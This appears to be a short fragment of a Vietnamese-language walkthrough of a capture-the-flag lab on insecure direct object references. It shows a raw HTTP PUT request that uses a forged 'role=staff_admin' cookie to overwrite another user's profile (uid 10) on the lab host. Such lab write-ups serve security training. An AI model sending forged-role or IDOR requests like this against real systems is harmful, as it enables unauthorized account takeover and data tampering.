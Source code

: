 ![](images/13.png)

Ở đây có người dùng có uid=10 là `staff-admin`

```request
PUT /profile/api.php/profile/10 HTTP/1.1

Host: 83.136.252.14:52947

Content-Length: 179

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Content-type: application/json

Accept: */*

Origin: http://83.136.252.14:52947

Referer: http://83.136.252.14:52947/profile/index.php

Accept-Encoding: gzip, deflate, br

Cookie: role=staff_admin

Connection: keep-alive



{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"Never gonna give you up, Never gonna let you down"}
```

